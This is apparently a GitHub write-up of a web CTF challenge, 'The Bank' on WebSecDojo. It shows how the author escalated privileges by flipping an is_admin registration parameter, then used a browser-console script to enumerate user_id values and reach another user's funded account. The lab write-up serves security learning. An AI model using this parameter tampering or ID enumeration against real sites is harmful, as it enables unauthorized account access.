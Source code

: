 # WebSecDojo.com - The Bank
## My first post :)!!
### Prerequisites
<ul>
  <li>HTML and Javascript experience.</li>
  <li>Basic knowledge of HTTP requests and API endpoints.</li>
  <li>Developer Panel (I recommend using firefox) or similar software that enables sending web requests.</li>
</ul>
### Exploring the website
  After entering the challenge I was in `https://websecdojo.com/thebank/index.php`.<br/>
  Since I didn't have an account I thought it'd be better to attempt to create one so I clicked `Don't have an account? Register here`.
### Trying to register
  First because I know it's a CTF challenge focused on HTTP requests I opened the network tab.<br/>
  Entered fabricated data and submitted the web-form.
  Found a `POST` request to this URL: `https://websecdojo.com/thebank/register.php`.
  The request's had a parameter named `is_admin` the was set to `0`. When changed to `1`, resending the request will result in a `GET` request to the URL: `https://websecdojo.com/thebank/dashboard.php`.
### The dashboard
  Go to `https://websecdojo.com/thebank/dashboard.php` in your browser.
  While the network tab is open try to fill out the form, the request returns failure as response.
  We can see in the request that in the URL there's a parameter named `user_id`.
  Going through the dashboard's HTML I found the function that submits the form.
### Examining the form submission
Examine this simple function:
```js
        function handleTransfer(event) {
            event.preventDefault();
            
            const form = document.getElementById('transferForm');
            const formData = new FormData(form);
            
            // Get user_id from URL or default to 0
            const urlParams = new URLSearchParams(window.location.search);
            const userId = urlParams.get('user_id') || '0';
            
            // Add user_id to formData
            formData.append('user_id', userId);
            
            fetch('api.php?user_id=' + userId, {
                method: 'POST',
                body: formData
            })
            .then(response => response.json())
            .then(data => {
                const messageDiv = document.getElementById('transferMessage');
                if (data.success) {
                    messageDiv.className = 'alert alert-success mt-3';
                    messageDiv.textContent = 'Transfer successful!';
                    form.reset();
                } else {
                    messageDiv.className = 'alert alert-danger mt-3';
                    messageDiv.textContent = data.message || 'Transfer failed. Please try again.';
                }
            })
            .catch(error => {
                const messageDiv = document.getElementById('transferMessage');
                messageDiv.className = 'alert alert-danger mt-3';
                messageDiv.textContent = 'An error occurred. Please try again.';
                console.error('Error:', error);
            });
            
            return false;
        }
```
        
Basically, the function checks the URL for parameters, if none found the `user_id` will be set as `0`.
### Trying to switch into a user that has funds
I added `?user_id=0` to the URL resulting in this: `https://websecdojo.com/thebank/dashboard.php?user_id=0`.
Now the user's named `User Bobbetta` instead of `Admin` and yet still has no balance.
Trying to fill out the form again and submitting it results in failure response.
Trying different IDs return the same user.
Assuming the IDs can be enumerated i wrote this script (ChatGPT wrote it for me ;)):
```js
let id = 0;
const maxAttempts = 5000; // adjust as needed
const delay = 200; // ms delay between requests to avoid hammering the server

function checkNextId() {
    if (id > maxAttempts) {
        console.log("Reached maximum attempts.");
        return;
    }

    fetch(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, {
        credentials: 'include' // keep session cookies
    })
    .then(res => res.text())
    .then(html => {
        // Look for the admin HTML marker
        if (html.includes('<span id="username">Admin</span>')) {
            console.log(`🎯 Found Admin at user_id=${id}`);
            console.log(`URL: https://websecdojo.com/thebank/dashboard.php?user_id=${id}`);
            // Optionally open in new tab:
            window.open(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, '_blank');
        } else if (!html.includes('User Bobbetta')) {
            console.log(`✅ Found non-Bobbetta user at id=${id}`);
        } else {
            console.log(`⛔ Skipped id=${id}`);
        }
    })
    .catch(err => {
        console.warn(`Error at id=${id}:`, err);
    })
    .finally(() => {
        id++;
        setTimeout(checkNextId, delay);
    });
}

checkNextId();

```
Pasted it in the console that's in the Developer Panel and found two users with IDs `10` and `11`.

### Switching into user that has funds
I entered this URL: `https://websecdojo.com/thebank/dashboard.php?user_id=10`
Got into a user named `User John Doe` with `$10000`.
Filled out the form with fabricated information.
The website showed failure yet the request returned success.

### Getting the flag
This one took me a while...
Most people ofen overlook certain parts of HTTP requests. In this Case it was the `Response Headers`.
Looking there you will find the flag header: `x-flag: flag#theflagwillbehere`

### Conclusions
Examine the request thoroughly, you can use ChatGPT for this if you're lazy.

### Important remarks
I would like to thank Avi who created this fun CTF challenge and gave me the clue to the last part. I overlooked the Response Headers.
Check out his awesome Web CTFs website: <a href="https://websecdojo.com/" target="_blank">https://websecdojo.com/</a>



